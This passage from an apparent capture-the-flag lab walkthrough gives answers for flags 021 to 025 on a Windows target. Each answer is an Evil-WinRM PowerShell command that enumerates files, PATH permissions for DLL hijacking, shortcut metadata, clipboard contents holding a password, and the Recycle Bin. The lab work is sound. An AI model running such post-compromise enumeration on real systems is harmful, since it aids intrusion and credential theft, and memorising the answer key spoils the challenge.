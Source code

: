 ### FLAG 021: HTA Application (25 points)
**Location**: HTA application source
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> Get-Content C:\Users\Public\Documents\Important\portal.hta | Select-String FLAG
# Output: <!-- Flag: FLAG{PRIMEAPE27510935} -->
```

---

## Phase 8: Advanced Techniques

### FLAG 022: DLL Hijacking Path (35 points)
**Location**: Writable PATH directory
```bash
# In Evil-WinRM session:
# Check PATH for writable directories
*Evil-WinRM* PS C:\> $env:PATH -split ';'

# Check permissions on custom directory
*Evil-WinRM* PS C:\> icacls C:\ProgramData\Custom
# Shows Everyone:(F) - Full control

# Read the flag hint
*Evil-WinRM* PS C:\> Get-Content C:\ProgramData\Custom\readme.txt
# Output: REM Flag: FLAG{GROWLITHE48069249}
```

### FLAG 023: Desktop Shortcut Properties (10 points)
**Location**: Shortcut file metadata
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> $sh = New-Object -ComObject WScript.Shell
*Evil-WinRM* PS C:\> $shortcut = $sh.CreateShortcut("C:\Users\Public\Desktop\Server Shares.lnk")
*Evil-WinRM* PS C:\> $shortcut | Select-Object Description
# Output: Connect to server - Flag: FLAG{POLIWHIRL34647050}
```

### FLAG 024: Clipboard Contents (15 points)
**Location**: Current clipboard data
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> Get-Clipboard
# Output: FLAG{KADABRA46984238}
# May also contain: Important: Remember to update the database password to Str0ng3r!P@ss2024
```

### FLAG 025: Recycle Bin Recovery (20 points)
**Location**: Deleted file in recycle bin
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> cd 'C:\$Recycle.Bin'
*Evil-WinRM* PS C:\$Recycle.Bin> Get-ChildItem -Force -Recurse

# Find the user's recycle bin SID folder
*Evil-WinRM* PS C:\$Recycle.Bin> cd S-1-5-21-3335744492-2692836348-3144141625-1001
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-3335744492-2692836348-3144141625-1001> ls -Force

# Read the recycled file
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-3335744492-2692836348-3144141625-1001> Get-Content "`$R8KJH3D.txt"
# Output: deleted_flag.txt: FLAG{MACHOKE42992509}
```